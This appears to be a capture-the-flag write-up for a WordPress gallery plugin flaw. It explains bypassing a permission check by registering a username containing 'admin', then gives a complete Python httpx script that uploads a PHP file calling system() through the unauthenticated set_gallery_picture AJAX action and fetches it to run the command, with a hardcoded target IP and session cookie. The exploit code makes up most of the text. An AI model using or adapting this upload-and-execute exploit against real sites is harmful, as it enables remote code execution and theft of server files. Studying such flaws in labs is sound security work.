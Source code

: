 To exploit this vulnerability, you need to:

*   **Register a User**: Create a user with "admin" in the username to pass the permission check.

*   **Upload a Malicious File**: Use the `set_gallery_picture` function to upload a PHP file that can execute commands on the server.

*   **Access the Uploaded File**: Retrieve the file and execute commands, such as reading sensitive files.

### Exploit Script

Here's the Python script to perform the exploit:

```python
import httpx
import asyncio

URL = "http://100.25.255.51:9090"
COOKIE = "dimasadmin%7C1727237044%7CfbV2k541XkmCm4cuqdgGpIS29hK1p44L8T26qqy8Cfc%7Ca7321f10cc89cae9e56aeccbe42e0b580aa386cdca33920f7abfc2168c601486"
CNAME = "wordpress_c650151c791a3020134332fe15b253e5"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    pass

async def main():
    api = API()
    api.c.cookies.set(CNAME, COOKIE)  # Set the cookie for authenticated session

    # Step 1: Upload the malicious PHP file
    res = await api.c.post("/wp-admin/admin-ajax.php?action=nopriv_set_gallery_picture", data={
        "product_id": 1  # Specify a valid product ID
    }, files={
        "gallery_picture": ("dimas.php", "<?php system('cat /flag.txt');?>")  # PHP payload to execute
    })

    # Step 2: Access the uploaded file to execute the payload
    res = await api.c.get("/wp-content/uploads/woo-gallery/dimas.php")
    print(res.text)  # Output the result of the executed command

if __name__ == "__main__":
    asyncio.run(main())

```

### Note

*   **Set Cookies**: you need to replace the cookie with your own cookie that can be get after you register and login in [/wp-login.php](http://100.25.255.51:9090/wp-login.php)
